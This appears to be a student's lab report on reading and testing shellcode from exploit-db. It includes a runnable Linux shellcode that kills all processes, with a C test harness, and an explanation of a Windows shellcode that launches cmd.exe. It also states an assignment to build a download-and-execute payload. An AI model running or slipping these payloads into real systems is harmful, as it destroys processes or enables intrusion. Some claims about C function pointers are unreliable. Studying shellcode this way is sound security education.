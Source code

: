 # shellcode

## 实验要求
- [] 1、详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
- [] 2、修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
* 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。
* URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
## 实验步骤
### 实验一
#### shellcode示例1-linux-64位  
功能：Kill All Processes   
[shellcode-1来源](https://www.exploit-db.com/shellcodes/46492)
##### 实验环境
虚拟机：kali 64位  
物理机：win10
##### 实验步骤
1. scp拷贝shell-test.c文件到kali中  
2. 将shell-test.c编译链接成可执行文件```gcc -fno-stack-protector -z execstack shell-test.c -o shell-test```
3. 执行：```./shell-test```
##### 实验效果
![](video/kali64-shellcode.gif)
##### shellcode解读
* rax rbx rcx rdx：通用寄存器（注意 a, b, c, d）。rdi rsi：d 和 s 分别表示 “destination” 和 “source”，不过现在已经没有意义了。
* 在 Linux 使用的 System V 二进制接口中：前 6 个参数通过寄存器传参。函数的返回值则通过 rax 寄存器返回。当函数调用发生时，整型变量/指针按照如下顺序通过寄存器传递：rdi, rsi, rdx, rcx（后来换成了r10）, r8, r9。每个系统调用都有一个整数标识符。
* 在不同平台上，系统调用的编号可能不同。不过，在 Linux 中，这些标识符是永远不会变的。因此汇编代码中'push 0x3e'和'push	0x9'能够很明确地分别表示'sys kill'和'sig kill'。然后不断用rax、rdi、rsi来传递pid,依次pop出栈。
* 最后使用'syscall'指令向系统内核发起系统调用请求。
![](images/shellcode1.png)
C代码及分析如下：  
```
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05";
main()
{
printf("Shellcode Length:  %d\n", (int)strlen(code));//打印输出该shellcode的长度
int (*ret)() = (int(*)())code;//使用函数指针将code的地址赋给ret()，然后调用
ret();
}
```
>完整汇编及C代码存于code/shellcode-1.txt
#### shellcode示例2-linux-32位
功能：  
[shellcode-2来源]()
##### 实验环境
##### 实验步骤
##### 实验效果
##### shellcode解读
>完整汇编及C代码存于code/shellcode-2.txt
#### shellcode示例3-win-32位
功能：打开cmd.exe   
[shellcode-3来源](https://www.exploit-db.com/shellcodes/39900)
##### 实验环境
虚拟机：xp-sp3-32位  
物理机：win10
##### 实验步骤
1. 将汇编语言保存为winexec.asm,然后使用下列命令编译链接：  
```
# linux系统中使用
nasm -f win32 winexec.asm -o exec.obj
# vs命令行中使用
ld.exe -o winexec.exe exec.obj
```
2. xp-sp3中执行winexec.exe
##### 实验效果
![](video/xp32-shellcode.gif)
##### shellcode解读-win-64位
1. 加载PEB找kernel32.dll基地址  
![](images/3-1.png)  
2. 找kernel32.dll导出表
![](images/3-2.png)  
3. 在导出表中找到GetProcAddress()函数的名字  
![](images/3-3.png)  
4. 找到GetProcAddress()函数的地址  
![](images/3-4.png) 
5. 保存GetProcAddress()的地址和kernel32.dll的地址，以及找到Winexe()的地址  
![](images/3-5.png)  
6. 结束进程  
![](images/3-6.png)   
>完整汇编及C代码存于code/shellcode-3.txt

#### shellcode示例4
功能： 
[shellcode-4来源]()
##### 实验环境

##### 实验步骤

##### 实验效果

##### shellcode解读

>完整汇编及C代码存于code/shellcode-4.txt
### 实验二
#### 实验要求
修改[示例shellcode](https://www.exploit-db.com/shellcodes/48116),使其下载运行某个程序
[shellcode来源](https://www.exploit-db.com/shellcodes/24318)
#### 实验步骤
#### 实验效果

## 实验问题

## 实验总结
1. 经过此次实验作业，加深了对汇编语言的理解，首先是AT&T与Intel风格的汇编语言:  
DOS/Windows 下的汇编语言代码都是 Intel 风格的，而 Linux 和 Unix 系统中更多采用的是 AT&T 格式。  
2. shellcode示例C代码中多次使用到了函数指针。函数指针值得学习：  
[深入理解C语言函数指针](https://www.cnblogs.com/windlaughing/archive/2013/04/10/3012012.html)和[深入浅出——理解c/c++函数指针](https://zhuanlan.zhihu.com/p/37306637)  
函数指针学习总结： 
* 函数指针：将函数的首地址存储在某个函数指针变量中，被存储地址的函数指针称为函数指针常量，被赋予函数指针的称为函数指针变量，从而使两个不同函数名的函数拥有相同的函数调用效果。通俗地理解，就是将一个函数的首地址通过指针进行传参来调用。
* 函数指针变量跟普通的指针一样在32位系统下大小都为4。但是函数指针常量的大小为1.
* 函数指针变量和函数指针常量存储在内存的不同位置。
* 为负值的函数指针变量（全局）的值为0
* 函数指针同样要求返回值匹配和参数匹配
## 参考文献
[www.exploit-db.com 中的shellcode](https://www.exploit-db.com/shellcodes)  
[!peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)  
[PEB结构学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)  
[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)  
[Process Environment Block](https://en.wikipedia.org/wiki/Process_Environment_Block)  
[汇编语言--Linux 汇编语言开发指南](https://zhuanlan.zhihu.com/p/54853591)  
[Raw Linux Threads via System Calls](https://nullprogram.com/blog/2015/05/15/)  
[URLDownloadToFile function](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85)?redirectedfrom=MSDN)